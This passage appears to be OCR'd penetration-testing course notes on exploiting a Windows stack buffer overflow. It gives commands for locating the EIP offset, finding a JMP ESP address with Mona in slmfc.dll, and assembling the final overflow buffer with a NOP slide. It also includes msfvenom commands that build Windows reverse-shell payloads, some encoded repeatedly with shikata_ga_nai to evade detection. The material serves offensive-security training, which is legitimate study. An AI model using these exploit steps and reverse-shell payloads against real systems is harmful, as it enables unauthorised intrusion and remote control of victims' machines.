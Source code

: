 - Use the fuzzer learned in the course

- MSFvenom  
  [*https://www.offensive-security.com/metasploit-unleashed/msfvenom/*](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

### Windows Buffer Overflows

- Controlling EIP

      ```shell
      locate pattern_create
      pattern_create.rb -l 2700
      locate pattern_offset
      pattern_offset.rb -q 39694438
      ```

- Verify exact location of EIP - [\*] Exact match at offset 2606

    `buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90`

- Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

- Use Mona to determine a module that is unprotected

- Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

- Use NASM to determine the HEX code for a JMP ESP instruction

    /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    JMP ESP  
    00000000 FFE4 jmp esp

- Run Mona in immunity log window to find (FFE4) XEF command

      ```shell
      !mona find -s "\xff\xe4" -m slmfc.dll  
      found at 0x5f4a358f - Flip around for little endian format
      buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390
      ```

    **We can use the view -> show executables modules and search for the instruction in the immunity debugger.**

- MSFVenom to create payload

    `msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"`

- Final Payload with NOP slide  

    `buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode`

- Create a PE Reverse Shell

    `msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -o shell_reverse.exe`

- Create a PE Reverse Shell and Encode 9 times with Shikata_ga_nai

    `msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe`
